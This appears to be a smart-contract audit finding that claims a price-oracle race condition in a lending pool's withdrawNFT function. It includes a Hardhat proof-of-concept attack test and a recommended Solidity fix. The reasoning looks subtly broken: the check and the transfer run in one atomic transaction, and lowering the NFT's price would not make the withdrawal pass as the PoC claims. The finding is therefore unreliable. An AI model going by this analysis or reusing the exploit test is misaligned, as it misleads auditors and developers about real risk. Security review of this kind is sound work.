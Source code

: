 # Price Oracle Race Condition in LendingPool.sol Enables Undercollateralized NFT Withdrawals


## Summary
The `withdrawNFT` function in `LendingPool.sol` contains a critical vulnerability where the price validation and NFT transfer occur in separate steps, allowing users to manipulate oracle prices between validation and transfer to withdraw NFTs while being undercollateralized. This race condition can lead to significant protocol losses.

## Vulnerability Details
The issue exists in the way `withdrawNFT` handles price validation and NFT transfer:

```solidity
function withdrawNFT(uint256 tokenId) external nonReentrant whenNotPaused {
    // @audit-info Initial security check for liquidation status
    if (isUnderLiquidation[msg.sender]) revert CannotWithdrawUnderLiquidation();

    UserData storage user = userData[msg.sender];
    if (!user.depositedNFTs[tokenId]) revert NFTNotDeposited();

    // @audit-info Updates reserve state before validation
    ReserveLibrary.updateReserveState(reserve, rateData);

    // @audit-issue Price validation happens here without staleness/manipulation checks
    uint256 userDebt = user.scaledDebtBalance.rayMul(reserve.usageIndex);
    uint256 collateralValue = getUserCollateralValue(msg.sender);
    uint256 nftValue = getNFTPrice(tokenId);

    if (collateralValue - nftValue < userDebt.percentMul(liquidationThreshold)) {
        revert WithdrawalWouldLeaveUserUnderCollateralized();
    }

    // @audit-issue NFT removal and transfer happens after validation with potential stale price
    for (uint256 i = 0; i < user.nftTokenIds.length; i++) {
        if (user.nftTokenIds[i] == tokenId) {
            user.nftTokenIds[i] = user.nftTokenIds[user.nftTokenIds.length - 1];
            user.nftTokenIds.pop();
            break;
        }
    }
    user.depositedNFTs[tokenId] = false;

    raacNFT.safeTransferFrom(address(this), msg.sender, tokenId);

    emit NFTWithdrawn(msg.sender, tokenId);
}
```

The vulnerability arises because:

* Price validation uses the current oracle price
* Oracle prices can be updated in the same block through `updatePriceFromOracle`
* No staleness checks or cooldown periods on price updates
* NFT transfer occurs after price validation

This creates a race condition where an attacker can:

* Have NFT valued at high price for validation
* Update price through oracle to lower value
* Complete withdrawal with insufficient remaining collateral

## Impact
* Protocol can be left with undercollateralized positions
* Users can extract more value than their collateral allows
* System can accumulate bad debt
* No mechanism to recover lost value
* Affects all NFT-collateralized positions

## Proof of Concept
This PoC proves that:

* An attacker can deposit an NFT at a high valuation
* Borrow maximum amount against this valuation
* Manipulate the oracle price to a lower value
* Successfully withdraw the NFT while being undercollateralized
* Leave the protocol with unrecoverable debt

The following test case demonstrates this attack sequence using Hardhat, showing how price manipulation between validation and withdrawal leads to protocol insolvency:

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("LendingPool NFT Price Oracle Manipulation", function() {
  let lendingPool, oracle, nft, owner, attacker;
  const NFT_ID = 1;
  const HIGH_PRICE = ethers.utils.parseEther("100");
  const LOW_PRICE = ethers.utils.parseEther("10");
  const BORROW_AMOUNT = ethers.utils.parseEther("50");

  beforeEach(async function() {
    [owner, attacker] = await ethers.getSigners();
    
    // Deploy contracts
    const Oracle = await ethers.getContractFactory("RAACHousePrices");
    oracle = await Oracle.deploy();
    
    const NFT = await ethers.getContractFactory("RAACNFT");
    nft = await NFT.deploy();
    
    const LendingPool = await ethers.getContractFactory("LendingPool");
    lendingPool = await LendingPool.deploy(oracle.address, nft.address);

    // Setup: Mint NFT to attacker
    await nft.connect(attacker).mint(NFT_ID);
    await nft.connect(attacker).approve(lendingPool.address, NFT_ID);
  });

  it("Should allow undercollateralized withdrawal through price manipulation", async function() {
    // Step 1: Set initial high price
    await oracle.setHousePrice(NFT_ID, HIGH_PRICE);
    
    // Step 2: Deposit NFT and borrow
    await lendingPool.connect(attacker).depositNFT(NFT_ID);
    await lendingPool.connect(attacker).borrow(BORROW_AMOUNT);
    
    // Step 3: Update price to low value
    await oracle.setHousePrice(NFT_ID, LOW_PRICE);
    
    // Step 4: Withdraw NFT successfully despite being undercollateralized
    await lendingPool.connect(attacker).withdrawNFT(NFT_ID);
    
    // Verify: Attacker has both NFT and borrowed funds
    expect(await nft.ownerOf(NFT_ID)).to.equal(attacker.address);
    expect(await lendingPool.getUserDebt(attacker.address)).to.equal(BORROW_AMOUNT);
  });
});
```

## Tools Used
* Manual code review
* Hardhat for proof of concept testing

## Recommendation
Implement price update protection mechanism:

```solidity
function withdrawNFT(uint256 tokenId) external nonReentrant whenNotPaused {
    if (isUnderLiquidation[msg.sender]) revert CannotWithdrawUnderLiquidation();

    UserData storage user = userData[msg.sender];
    if (!user.depositedNFTs[tokenId]) revert NFTNotDeposited();

    // @audit-ok Get price with timestamp validation
    (uint256 nftPrice, uint256 lastPriceUpdate) = oracle.getLatestPrice(tokenId);
    
    // @audit-ok Add price staleness check
    if (lastPriceUpdate == block.timestamp) {
        revert PriceUpdatedThisBlock();
    }
    
    // @audit-ok Ensure price is mature enough
    if (block.timestamp - lastPriceUpdate < MIN_PRICE_AGE) {
        revert PriceTooFresh();
    }

    ReserveLibrary.updateReserveState(reserve, rateData);

    uint256 userDebt = user.scaledDebtBalance.rayMul(reserve.usageIndex);
    uint256 collateralValue = getUserCollateralValue(msg.sender);

    if (collateralValue - nftPrice < userDebt.percentMul(liquidationThreshold)) {
        revert WithdrawalWouldLeaveUserUnderCollateralized();
    }

    for (uint256 i = 0; i < user.nftTokenIds.length; i++) {
        if (user.nftTokenIds[i] == tokenId) {
            user.nftTokenIds[i] = user.nftTokenIds[user.nftTokenIds.length - 1];
            user.nftTokenIds.pop();
            break;
        }
    }
    user.depositedNFTs[tokenId] = false;

    raacNFT.safeTransferFrom(address(this), msg.sender, tokenId);

    emit NFTWithdrawn(msg.sender, tokenId);
}
```

Additional recommendations:

* Add cooldown period between price updates
* Implement price deviation limits
* Add emergency pause for suspicious price activity
* Consider using a TWAP for NFT valuations

## Final Assessment
* **Severity**: High
  * Can result in protocol insolvency
  * Affects core lending mechanism
  * No existing protection against attack

* **Likelihood**: High
  * Easy to execute
  * No technical barriers
  * High incentive for attackers

* **Impact**: Loss of protocol funds through undercollateralized positions

* **Recommendation Status**: Not Implemented
  * Clear solution available
  * Multiple protection layers possible
  * Critical to implement before mainnet

